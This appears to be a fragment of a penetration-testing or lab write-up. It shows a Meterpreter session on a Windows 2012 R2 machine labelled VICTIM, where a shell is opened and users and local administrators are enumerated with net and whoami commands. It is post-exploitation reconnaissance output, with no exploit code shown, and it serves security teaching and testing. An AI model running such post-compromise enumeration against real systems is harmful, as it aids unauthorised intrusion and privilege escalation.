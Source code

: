 ```bash
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid 
Server username: VICTIM\admin

meterpreter > shell
Process 992 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net users
net users

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
victim\admin

======================================================
the user "admin" is one of local administrators group
======================================================
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>


```
